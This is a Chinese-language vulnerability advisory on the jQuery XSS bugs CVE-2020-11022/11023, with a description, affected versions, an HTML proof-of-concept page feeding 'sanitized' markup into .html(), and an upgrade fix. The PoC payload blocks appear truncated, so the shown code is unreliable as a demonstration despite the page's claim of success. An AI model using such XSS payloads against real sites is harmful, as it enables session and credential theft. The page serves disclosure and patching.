


# jQuery低版本存在XSS漏洞

### 漏洞描述

​	jQuery在Web中广泛应用，当jQuery的版本大于或等于1.2且小于3.5.0的时候，即使执行了消毒（sanitize）处理，也仍会执行将来自不受信任来源的HTML传递给jQuery的DOM操作方法（即html()、.append()等），从而导致xss漏洞。

​	攻击者可以利用该漏洞执行恶意HTML/JS代码、构造蠕虫、篡改页面实施钓鱼攻击、以及诱导用户再次登录，然后获取其登录凭证等。

### 影响版本

大于等于1.2 ,小于 3.5.0

### 漏洞复现

POC验证

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>jQuery XSS Examples (CVE-2020-11022/CVE-2020-11023)</title>
    <!-- 测试JQuery -->
   <script src="https://www.xxx.cn/xxxx/xxxx/default/jquery-1.5.2.min.js"></script>
    <!-- <script src="./jquery.min.js"></script> -->
</head>
<body>
<script>
function test(n,jq){
    sanitizedHTML = document.getElementById('poc'+n).innerHTML;
    if(jq){
        $('#div').html(sanitizedHTML);
    }else{
        div.innerHTML=sanitizedHTML;
    }
}
</script>
<h1>jQuery XSS Examples (CVE-2020-11022/CVE-2020-11023)</h1>
<p>PoCs of XSS bugs fixed in <a href="//blog.jquery.com/2020/04/10/jquery-3-5-0-released/">jQuery 3.5.0</a>. You can find the details in my blog post: <a href="//mksben.l0.cm/2020/05/jquery3.5.0-xss.html">English</a> / <a href="//masatokinugawa.l0.cm/2020/05/jquery3.5.0-xss.html">日本語</a></p>

<h2>PoC 1</h2>
<button onclick="test(1)">Assign to innerHTML</button> <button onclick="test(1,true)">Append via .html()</button>
<xmp id="poc1">
<style><style />
</xmp>

<h2>PoC 2 (Only jQuery 3.x affected)</h2>
<button onclick="test(2)">Assign to innerHTML</button> <button onclick="test(2,true)">Append via .html()</button>
<xmp id="poc2">
">
</xmp>

<h2>PoC 3</h2>
<button onclick="test(3)">Assign to innerHTML</button> <button onclick="test(3,true)">Append via .html()</button>
<xmp id="poc3">
<option><style></option></select></style>
</xmp>

<div id="div"></div>
</body>
</html>

```



验证成功



### 修复建议

更新jQuery到3.5.0或更高版本

```js
https://code.jquery.com/jquery-3.5.0.js
```